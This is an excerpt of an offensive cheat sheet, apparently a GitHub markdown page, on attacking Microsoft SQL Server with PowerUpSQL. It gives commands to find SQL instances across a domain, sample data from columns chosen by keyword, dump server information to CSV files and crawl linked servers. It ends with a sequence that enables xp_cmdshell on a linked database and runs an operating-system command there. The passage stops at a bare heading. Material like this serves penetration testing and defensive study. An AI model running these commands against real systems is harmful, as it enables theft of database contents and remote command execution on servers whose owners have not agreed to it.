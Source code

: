 
```ps1
Get-SQLInstanceDomain | Get-SQLColumnSampleData -Keywords "<columnname1,columnname2,columnname3,columnname4,columnname5>" -Verbose -SampleSize 5
```

### Gather 5 Entries from a Specific Table


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query 'select TOP 5 * from <DatabaseName>.dbo.<TableName>'
```


### Dump common information from server to files

```ps1
Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv
```

## Linked Database

### Crawl Links for Instances in the Domain 
A Valid Link Will Be Identified by the DatabaseLinkName Field in the Results


```ps1
Get-SQLInstanceDomain | Get-SQLServerLink -Verbose
```

### Crawl Links for a Specific Instance

```ps1
Get-SQLServerLinkCrawl -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

### Query Version of Linked Database


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DBSERVERNAME\DBInstance>`",'select @@version')" -Verbose
```

### Execute Procedure on Linked Database

```ps1
SQL> EXECUTE('EXEC sp_configure ''show advanced options'',1') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('EXEC sp_configure ''xp_cmdshell'',1;') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('exec xp_cmdshell whoami') at "linked.database.local";
```

### Determine Names of Linked Databases 
